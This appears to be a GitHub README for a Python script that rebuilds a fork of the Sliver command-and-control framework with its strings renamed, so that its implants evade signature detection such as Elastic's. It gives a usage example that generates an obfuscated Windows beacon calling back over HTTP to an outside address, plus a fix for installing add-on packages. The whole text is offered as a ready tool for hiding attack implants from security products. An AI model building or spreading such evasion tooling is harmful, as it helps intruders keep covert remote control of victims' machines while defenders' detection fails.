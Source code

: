 # SliverCloakPy
Bypass common signature detections such as the ones from elastic.

Python script that does the job of slivercloak against armysick's sliver fork

slivercloak -> https://github.com/thelikes/slivercloak

armysick's sliver -> https://github.com/armysick/sliver

## Usage

Right now the script covers the Elastic Module, but you can replace whatever you want to be honest.

I did this small script because I have a hard time understanding all the work behind go, and I wanted to use armysick's fork, since it implements the ekko sleep module.

Just download the script and run `python3 builder.py`
This will automatically clone armysick's sliver, and get the necessary dependecies, afterwards, it will replace strings in the files and compile the proyect

Beacons are renamed to Krakens, and sliver-server/client is renamed to golder-server/client

## example of generating a beacon with ekko sleep obfuscation -B
```
generate kraken --http 10.10.10.134 -s /mnt/c/Payloads --arch amd64 --os windows -B -f exe
```

## armory problems fix
Since this is replacing strings, including the ones of armory, you wont be able to install armory packages straight away, here is a quick fix

```
armory add -u https://api.github.com/repos/sliverarmory/armory/releases -k "RWSBpxpRWDrD7Fe+VvRE3c2VEDC2NK80rlNCj+BX0gz44Xw07r6KQD9L" armory

armory install all
```
